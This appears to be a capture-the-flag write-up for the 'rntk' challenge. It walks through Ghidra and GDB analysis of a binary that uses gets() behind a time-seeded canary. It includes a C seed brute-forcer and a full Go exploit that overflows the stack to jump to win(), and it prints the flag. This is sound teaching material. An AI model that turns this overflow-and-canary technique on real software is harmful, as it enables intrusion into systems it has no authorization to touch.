







# rntk

## Prompt
check out my random number toolkit!

`nc amt.rs 31175`

## Solution
Open Ghidra and analyze the binary to find the main function.

The points of interest are `generate_canary()`, `random_guess()`, and `win()`. 

`main()` is the entry point. It runs `generate_canary()` and takes user input.


`generate_canary()` uses the current time as a seed, generates a random number, and saves it as `global_canary`.


`random_guess()` takes user input via `gets()` and is resistant to attacks by maintaining that a `local_canary` is equal to the `global_canary`.


The function returns to address `0x004014cf` after it completes.



`win()` is an unreachable function that sends the flag.


It starts at address `0x004012b6`.



Using GDB, one can analyze the call stack. Breakpoints should be set before and after the vulnerable `gets()` in order to see how it affects the stack.



Running the file and analyzing the stack before and after input shows how the input is stored. 



As can be seen, the value `0x004014cf` is on the stack. This is the return address and is the target for overflow.

The second value `0x4db6562a` is the `local_canary` value here. It must be calcualted, so it can remain on the stack even after the attack.

A random number can be generated in order to reverse the exact second the seed time.




Running this script gives the hex value of the global canary, which matches the `0x4db6562a` already on the stack.
```c
#include "stdint.h"
#include "stdio.h"
#include "stdlib.h"

int b = 104077886;

int main() {

    uint32_t time = 1689486301;

    while (time != 0) {
        srand(time);
        int one = rand();
        int two = rand();

        if (b == two) {
            int guess = rand();
            printf("Canary: %d\n", one);
            printf("Canary: %x\n", one);
            break;
        }

        time += 1;
    }

    return 0;
}
```



Notice above that the canary is the 12th "block" and the return address is the 15th "block." This means the attack must be formatted (`A` as `41` will be used for filler):

`41414141` * 11 + `local_canary` + `41414141` * 2 + `0x004012b6` (flipped endian)

```go
package main

import (
	"bufio"
	"encoding/hex"
	"fmt"
	"net"
	"os"
	"strings"
)

func main() {

	CONNECT := "amt.rs:31175"
	c, err := net.Dial("tcp", CONNECT)
	if err != nil {
		fmt.Println(err)
		return
	}

	var message string
	var text string
	recv := bufio.NewReader(c)
	send := bufio.NewReader(os.Stdin)

	message, _ = recv.ReadString('\n')
	fmt.Print("->: " + message)
	message, _ = recv.ReadString('\n')
	fmt.Print("->: " + message)
	message, _ = recv.ReadString('\n')
	fmt.Print("->: " + message)
	message, _ = recv.ReadString('\n')
	fmt.Print("->: " + message)

	fmt.Print(">> ")
	fmt.Fprintf(c, "1"+"\n")

	message, _ = recv.ReadString('\n')
	fmt.Print("->: " + message)
	message, _ = recv.ReadString('\n')
	fmt.Print("->: " + message)
	message, _ = recv.ReadString('\n')
	fmt.Print("->: " + message)
	message, _ = recv.ReadString('\n')
	fmt.Print("->: " + message)
	message, _ = recv.ReadString('\n')
	fmt.Print("->: " + message)

	fmt.Print(">> ")
	fmt.Fprintf(c, "2"+"\n")

	message, _ = recv.ReadString(':')
	fmt.Print("->: " + message)

	// BEGIN EXPLOIT
	exploit := "4141414141414141414141414141414141414141414141414141414141414141414141414141414141414141"

	// Get hex canary input
	text, _ = send.ReadString('\n')
	text = strings.Replace(text, "\n", "", -1)
	exploit += endian(text) // Converts to correct endian

	// Add remainder
	exploit += "4141414141414141b6124000"

	ex, err := hex.DecodeString(exploit)
	if err != nil {
		panic(err)
	}
	fmt.Println(string(ex))

	fmt.Fprintf(c, string(ex)+"\n")

	message, _ = recv.ReadString('\n')
	fmt.Print("->: " + message)
	message, _ = recv.ReadString('\n')
	fmt.Print("->: " + message)

}

func endian(input string) string {
	out := ""
	for i := 0; i < len(input); i += 2 {
		out = input[i:i+2] + out
	}

	fmt.Println(input, out)

	return out
}

```



## Flag
`amateursCTF{r4nd0m_n0t_s0_r4nd0m_after_all}`
